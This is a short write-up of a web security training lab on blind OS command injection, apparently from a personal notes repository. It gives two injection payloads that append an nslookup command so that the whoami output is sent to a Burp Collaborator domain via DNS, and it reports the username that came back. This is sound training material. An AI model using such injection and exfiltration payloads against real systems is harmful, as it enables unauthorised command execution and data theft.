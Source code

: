 # Lab  5 - Blind OS command injection with out-of-band data exfiltration (Running commands like whoami)

`To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.`


### Solution - 

Same process as above but add this payload

- ` & nslookup `whoami`.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # ` /  ` & nslookup $(whoami).zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

We get the username in the details panel - `peter-iQRvf5`

![image](https://user-images.githubusercontent.com/67383098/225319008-28f90fcf-53d6-4237-b84d-bcd563b8a882.png)





